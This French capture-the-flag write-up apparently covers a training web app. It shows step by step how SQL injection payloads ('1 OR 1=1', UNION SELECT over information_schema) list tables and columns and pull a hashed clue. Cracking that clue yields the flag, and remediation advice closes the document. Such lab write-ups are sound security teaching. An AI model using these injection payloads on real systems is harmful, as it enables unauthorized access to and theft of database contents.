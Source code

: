 
---

# Exploitation de vulnérabilité SQL pour obtenir un flag

## Description de la faille

Une vulnérabilité SQL Injection permet d'extraire des données sensibles de la base de données. En exploitant cette faille, nous avons pu découvrir une table d'intérêt, obtenir des informations sur ses colonnes, et finalement extraire et transformer des données pour obtenir le flag.

## Étapes pour découvrir la faille

### 1. Initialiser l'injection SQL pour vérifier la vulnérabilité

En essayant la condition toujours vraie `1 OR 1=1`, nous obtenons :

```sql
ID: 1 OR 1=1; --
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 OR 1=1; --
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42

ID: 1 OR 1=1; --
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 1 OR 1=1; --
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med

ID: 1 OR 1=1; --
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

### 2. Lister toutes les tables de la base de données

En utilisant une requête UNION pour lister les tables, nous trouvons :

```sql
1 AND 1=1 UNION SELECT 1, table_name FROM information_schema.tables; --
```

Title: list_images
Url : 1

La table `list_images` semble intéressante, nous allons nous concentrer dessus.

### 3. Lister toutes les colonnes de la table `list_images`

Nous listons les colonnes de la table `list_images` avec les requêtes suivantes :

```sql
1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns; --
```

Les colonnes découvertes ver list-images sont :

```sql
ID: 1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns; --
Title: id
Url : list_images

ID: 1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns; --
Title: url
Url : list_images

ID: 1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns; --
Title: title
Url : list_images

ID: 1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns; --
Title: comment
Url : list_images
```

### 4. Extraire les données des colonnes intéressantes

Nous allons essayer de voir ce qu'il y a dans chacune de ces colonnes. En vérifiant les colonnes `title` et `comment`, nous trouvons des informations intéressantes :

```sql
1 AND 1=1 UNION SELECT title, comment FROM list_images; --
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

### 5. Décrypter et transformer les données pour obtenir le flag

1. **Décrypter le mot de passe** :
   - `1928e8083cf461a51303633093573c46` correspond à `albatroz` en MD5.

2. **Calculer le hash SHA-256** :
   - `albatroz` en SHA-256 donne `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`.

### Conclusion

En suivant ces étapes, nous avons pu exploiter une vulnérabilité SQL Injection pour extraire des données sensibles et finalement obtenir le flag.

## Flag

```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Recommandations pour remédier à cette faille

Pour corriger et prévenir les failles d'injection SQL, suivez ces bonnes pratiques :

1. **Utilisation de Requêtes Paramétrées (Préparées)** :
   - Les requêtes paramétrées permettent de séparer le code SQL des données utilisateur. Cela empêche les données utilisateur d'être interprétées comme des parties de la commande SQL.

2. **Utilisation des ORM (Object-Relational Mapping)** :
   - Les ORM sont des outils qui permettent de manipuler la base de données en utilisant des objets du langage de programmation plutôt que des commandes SQL directes.

3. **Validation et Échappement des Entrées Utilisateur** :
   - La validation des entrées consiste à vérifier que les données saisies par l'utilisateur sont conformes aux attentes (format, longueur, type, etc.). L'échappement consiste à transformer les caractères spéciaux en leur équivalent sécurisé.

4. **Limiter les Privilèges de la Base de Données** :
   - Restreindre les privilèges des comptes de base de données utilisés par l'application pour limiter l'impact potentiel d'une injection SQL.

5. **Utilisation des Outils de Détection et de Prévention des Intrusions (IDS/IPS)** :
   - Les IDS/IPS sont des systèmes qui surveillent le trafic réseau et les activités de l'application pour détecter et prévenir les tentatives d'attaque.

6. **Tests de Sécurité et Audits Réguliers** :
   - Les tests de sécurité consistent à analyser et tester régulièrement votre application pour identifier et corriger les failles potentielles.

7. **Utilisation de Captchas** :
   - Les captchas permettent de différencier les utilisateurs humains des scripts automatisés, ce qui peut réduire le risque d'attaques automatisées.

8. **Formation et Sensibilisation des Développeurs** :
   - La sensibilisation des développeurs aux meilleures pratiques de sécurité est essentielle pour prévenir les vulnérabilités.

En suivant ces recommandations, vous pouvez considérablement réduire le risque d'injections SQL dans votre application et renforcer globalement la sécurité de votre infrastructure.

---
